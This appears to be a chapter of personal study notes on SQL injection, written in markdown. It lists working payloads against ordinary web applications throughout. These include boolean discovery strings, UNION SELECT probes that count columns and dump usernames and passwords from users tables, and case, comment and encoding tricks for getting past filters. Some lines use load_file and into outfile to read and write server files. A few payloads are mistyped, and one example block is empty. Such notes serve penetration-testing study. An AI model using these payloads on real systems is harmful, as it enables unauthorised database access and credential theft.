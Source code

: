 ## Chapter 9 : SQL 


1) Check user input vulnerability points : URL, fields, User-agent, Language 


2) Test the user inputs with basic payloads to check if the vulnerability and type of injections : __Blind, Band, Error_Based__ SQL


3) Query the number of the columns in the databasee


4) Find out the datatype of the columns


5) Extract basic information as the version or database name 


&nbsp;
&nbsp;
&nbsp;


### Discovery


__Type 1:Straightforward__


1- Submit a single quotation mark as the item of data you are targeting.



__Basic Discovery Commands :__



Examples :


>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;



2- It is important to keep in mind that not all vulnerabilities are straighforward.
   It is essential while testing to look for the behavior of the application:


 - __Error_based:__ the application shows the error to the end user 


- __Blind__ does not show any thing back to the user. It is mainly revolves on booleans
	 of True or False (application behavior)


- __Band__


__Note:__ It is always recommend to probe the applcation as Blind SQL injection, if the basic payloads did not work 


&nbsp;
&nbsp;

__Type 2:Bypass Filters __


1- Use the above commands in encoding manner in order to bypass filters 


__Basic Encodign Commands:__


Examples:


>>


>>



--------------------------------------------------------------------------------------------------------------------

### Probing the Database 


__The UNION Operator__


1- Easily extract arbitrary data from within
  the database

&nbsp;
2- UNION is supported by all major DBMS products.

&nbsp;
3- Your first task is to discover the number of columns returned by the original
  query being executed by the application. You can do this in two ways:

&nbsp;
4- You can exploit the fact that NULL can be converted to any data type to
  systematically inject queries with different numbers of columns until your
  injected query is executed
  

>>    ‘ UNION SELECT NULL--
>>       ‘ UNION SELECT NULL, NULL--
>>      ‘ UNION SELECT NULL, NULL, NULL--

&nbsp;
5- Having identified the required number of columns, your next task is to
  discover a column that has a string data type so that you can use this to
  extract arbitrary data from the database


 >>    ‘ UNION SELECT ‘a’, NULL, NULL--
 >>     ‘ UNION SELECT NULL, ‘a’, NULL--
 >>     ‘ UNION SELECT NULL, NULL, ‘a’--

&nbsp;
6- In Oracle databases, every SELECT statement must include a FROM
  attribute, so injecting UNION SELECT NULL produces an error regardless of
 the number of columns. You can satisfy this requirement by selecting from the
 globally accessible table DUAL. For example:


  >>  ‘ UNION SELECT NULL FROM DUAL--


&nbsp;
7- When you have identified the number of columns required in your injected
  query, and have found a column that has a string data type, you are in a position
  to extract arbitrary data.

  >>  EX: ‘ UNION SELECT @@version,NULL,NULL--
	
  >>   ‘ UNION SELECT banner,NULL,NULL FROM v$version-- | ORACLE



&nbsp;
&nbsp;
&nbsp;

-------------------------------------------------------------------------------------------------

### Exploitation : 


__Extracting Data with UNION__


__Type 1: Straightforward___


1- Find out the names of the database tables and columns that
  may contain interesting information


 >> EX: Name=Matthew’%20union%20select%20table_name,column_name,null,null,
      null%20from%20information_schema.columns--__

&nbsp;
2- Select the required column

 >> Ex: Name=Matthew’%20UNION%20select%20username,password,null,null,null%20  
   from%20users--__


&nbsp;
__Note:__

The information_schema is supported by MS-SQL, MySQL, and many
other databases, including SQLite and Postgresql. It is designed to hold database
metadata,EXCEPT ORACLE


__ORACLE: SELECT table_name,column_name FROM all_tab_
	columns to retrieve information about tables and columns in the database.__


&nbsp;

3- Search for interesting pieces of inforamtion:

 __EX: SELECT table_name,column_name FROM information_schema.columns where
      column_name LIKE ‘%PASS%’__

&nbsp;
&nbsp;


__Type 2 : Bypass Filters__


__Method 1:__  Sometimes when injecting the payload, it wont work as the url is encoded or common characters are removed 


 >> select ename,sal from emp where ename=’marcus’:

&nbsp;

__Encoding with ASCII__

>> Ex: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
&nbsp;

>>  SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)



__Method 2:__  if the query does not work, there might be a filter for words :


>> 	SeLeCt
>>	%00SELECT
>>	SELSELECTECT
>>	%53%45%4c%45%43%54
>>	%2553%2545%254c%2545%2543%2554__


__Method 3:__ Using SQL Comments

		
 >> EX: SELECT/*foo*/username,password/*foo*/FROM/*foo*/users

&nbsp;
>> SEL/*foo*/ECT username,password FR/*foo*/OM users



__Method 4:__ Dealing with single quotes issue:

		

- Sometimes single quote causes error in the database 

		
		
- To exploit this vulnerability, an attacker can simply register a username
  containing his crafted input, and then attempt to change his password. 


>> EX: ‘ or 1 in (select password from users where username=’admin’)--


&nbsp;
&nbsp;

## More Examples :


>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb 











